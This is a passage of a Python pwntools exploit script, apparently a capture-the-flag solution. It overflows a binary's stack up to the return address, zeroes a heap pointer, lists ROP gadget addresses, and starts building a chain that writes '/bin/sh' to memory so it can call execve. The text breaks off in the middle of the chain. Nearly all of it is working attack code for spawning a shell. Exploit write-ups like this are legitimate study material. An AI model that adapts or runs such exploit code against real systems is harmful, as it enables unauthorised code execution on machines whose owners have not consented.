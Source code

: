 

def send64(data):
    """Wrapper for 2 x send32()"""
    assert len(data) == 8
    send32(data[:4])
    send32(data[4:])

#######################################
# Prepare for overflow
#######################################

# Receive menu

p.recvuntil(": ")
p.sendline("255")
p.recvuntil("=> ")

# Fill stack until ret addr

log.info("Filling stack")

for i in xrange(18):
    if i == 12 or i == 13:
        # Overwrite heap_results pointer
        send32(p32(0x0))
    else:
        send32(p32(0xaabbccdd))

######################################################
# ROP chain for syscall execve("/bin/sh", NULL, NULL)
######################################################

"""
0x000000000044db34 : pop rax ; ret
0x0000000000437a85 : pop rdx ; ret
0x0000000000401c87 : pop rsi ; ret
0x0000000000401b73 : pop rdi ; ret
0x000000000044526e : mov qword ptr [rax], rdx
0x00000000004648e5 : syscall ; ret
"""

pop_rax =       0x44db34
pop_rdx =       0x437a85
pop_rsi =       0x401c87
pop_rdi =       0x401b73
www_rax_rdx =   0x44526e
syscall =       0x4648e5
writable =      0x6c0000
bin_sh =        "/bin/sh\x00"

log.info("Sending ROP chain")

# write "/bin/sh" to some writable location
send64(p64(pop_rax))
send64(p64(writable))
send64(p64(pop_rdx))
send64(bin_sh)
send64(p64(www_rax_rdx))
